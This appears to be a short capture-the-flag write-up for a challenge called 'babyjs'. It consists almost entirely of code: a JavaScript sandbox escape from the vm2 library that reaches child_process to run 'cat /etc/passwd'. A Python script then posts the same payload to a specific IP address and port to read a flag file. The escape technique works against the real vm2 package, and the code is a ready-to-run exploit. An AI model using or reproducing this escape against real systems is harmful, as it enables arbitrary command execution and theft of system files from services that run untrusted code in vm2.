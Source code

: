  babyjs

```javascript
const { NodeVM } = require("vm2");

let untrusted = `
( function () { let result = 'aaa';
  try {
    a = {};
    a.toString = function() {
      return {};
    }
    process.listeners(a);
  } catch(e) {
    result =
      e.constructor.constructor(
       "return this.process.mainModule.require('child_process').execSync('cat /etc/passwd')")().toString();
  }
return result; })();
`;

untrusted = "eval(`" + untrusted + "`)";

let vm = new NodeVM({
  // eval: false,
  wasm: false,
  wrapper: "none",
});

let result = "";

try {
  result = vm.run(`return ${untrusted}`);
} catch (err) {
  console.log(err);
  result = err.toString();
}
console.log(result);
```

最终脚本如下：

```python
import requests

r = requests.post('http://175.27.159.126:10010/',
           data={
               'calc':
               """eval(`
( function () { let result = 'aaa';
  try {
    a = {};
    a.toString = function() {
      return {};
    }
    process.listeners(a);
  } catch(e) {
    result =
      e.constructor.constructor(
       "return this.process.mainModule.require('child_process').execSync('cat flag.txt')")().toString();
  }
return result; })();
`)"""
```